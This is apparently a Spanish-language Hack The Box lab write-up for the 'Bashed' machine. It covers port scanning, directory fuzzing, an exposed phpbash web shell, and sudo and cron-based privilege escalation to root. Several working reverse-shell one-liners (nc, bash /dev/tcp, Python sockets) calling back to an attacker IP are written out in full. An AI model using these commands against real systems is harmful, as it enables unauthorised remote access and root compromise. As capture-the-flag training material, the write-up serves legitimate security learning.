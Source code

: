 # Bashed-HTB
Resolucion de la maquina

## Nmap

```
nmap -sS -Pn --open 10.129.165.94 -oG scan 
```

Encontramos el puerto 80 tcp abierto

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/678fc948-f147-42df-82d1-fe6d367732b1)

Dentro de la pagina encontramos que esta montado eso intentamos ver si tiene ruta por defecto. Credencuales etc.

```
/uploads/phpbash.php 404 not found
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/0c544556-8cab-4cb5-bc5d-4532791899e2)

Entonces debe de haber otra ruta...

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -t 1000 -u  http://10.0.10.1:5000/FUZZ

# Encontramos todas esas rutas accesibles

http://10.129.79.161/php/ #Encontramos un archivo sendMail.php

http://10.129.79.161/images/ # Imagenes

http://10.129.79.161/fonts/ #Fonts

http://10.129.79.161/js/ #Js 

http://10.129.79.161/dev/ # Aqui esta el RCE inicial el phpbash.php

http://10.129.79.161/css/
```

## PHPBASH

> https://github.com/Arrexel/phpbash

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/97bf7979-4b93-4530-9189-126b9583904c)

## RCE

Intente salir de esa shell subiendo un php con nc y bash y no jalo pero con python si...

```
nc -e /bin/bash 10.10.14.74 443 # No Jalo

bash -i >& /dev/tcp/10.10.14.74/4444 0>&1 # no jalo mmm

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",443)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#Full tty

python -c ‘import pty; pty.spawn(“/bin/bash”);’

```
Si miramos un poco la maquina nos dice que:

> sudo -l reveals that the ​www-data​ user can run any command as scriptmanager​, without having to provide a password.

Entonces nos hacemos scriptmanager

```
(scriptmanager : scriptmanager) NOPASSWD: ALL

sudo -u scriptmanager /bin/bash
```

## Apache rutas interesantes

Aqui recopile algunas rutas interesantes.

```
/etc/apache2/sites-enabled
/etc/apache2/sites-enabled/000-default.conf
/var/www/pub
/etc/php/7.0/mods-available/ftp.ini
/usr/share/php7.0-common/common/ftp.ini
/home/scriptmanager/.bashrc
/var/www/html/config.php
## Busque archivos SUID


find / -name "*.*" -type f -perm -400

```

Al ejecutar el linpeas nos dimos cuenta de la existencia de un folder /scripts y tambien usamos el pspy para ver si hay una tarea cron y si.

```
pspy32s
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/9c427a79-031d-442b-91eb-1b26e5533e37)

Si vemos tiene el UID en cero lo que nos indica que root esta corriendo ese comando.

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/e63c0eda-4b2b-4599-852a-565ec9733d1f)

Podemos observar que el archivo se puede escribir por el usuario que somos scriptmanager.

```
Se ejecutara cada minuto y nos regresa una reverse shell con permisos de root.

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",4444)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/040d5787-ea2a-494e-8854-5a44229e1c9f)


## Metodo alternativo

Volver SUID el bash 

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/7c543572-6ebd-4a56-adde-c8d57aefecd2)


![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/f0bc3847-f12a-40ab-9628-1f7f18881d5f)






